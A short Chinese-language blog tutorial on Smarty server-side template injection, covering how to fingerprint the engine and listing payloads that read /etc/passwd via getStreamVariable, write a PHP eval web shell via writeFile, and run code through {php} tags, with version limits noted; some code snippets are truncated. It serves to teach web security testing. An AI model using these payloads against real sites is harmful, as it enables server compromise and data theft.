

smarty模板注入

先看这一张图片，要知道怎么对一个模板进行注入就先要知道对应的模板类型，在相对应会被渲染到模板上的地方先尝试${77}如果回显出了*”$49”,就到上面的一步，否走则是下面的。
然后再测试a{*comment}b,如果回显出了a\b的结果则可以判断出这个是Smarty模板，因为在这个情况下，双*会把其中的内容注释了。
接下来就详细了解一下Smarty模板
Smarty模板是PHP模板语言之一，它可以为不受信任的模板执行提供了安全模式。这会执行在php安全函数白名单的函数，所以我们无法直接在模板中直接调用php中直接
执行命令的函数（相当于设置了些disable_function）但是其实这个是没有多大影响的，依旧可以依靠Smarty自身的一些特性去达到执行指令的目的。
1 | $Smarty内置变量: |
然后Samrty中还有个内部方法:
getStreamVariable($variable)
函数源码：
1 | public function getStreamVariable($variable)//variable其实就是文件路径 |
这个函数的作用是用来获取流变量的，通常处理一些文件流或者网络流等资源
1 | {self::getStreamVariable("file:///etc/passwd")} |
但这个方法只适用于3.1.30版本之前
writeFile
源码：
1 | public writeFile($filepath,$content,Smarty $smarty) |
1 | {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php @eval($_POST['shell']); ?>",self::clearConfig)} |
但这个也是有着版本的限制的。
标签的使用
1.{$smarty.version}
1 | 可以用来获取smarty的版本号 |
2.{php} {/php}
1 | {php}phpinfo();{/php}//可以执行php代码（这里会显示出php的相关配置内容等等） |
依旧有版本限制，该方法只允许在Smarty3版本之前使用，在Smarty3.1中，{php}标签也只可以在SmartyBC中可用。
3.{literal}
1 | 这个标签可以让一个模板区域的内容原样输出比如 |
本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来源 Blank！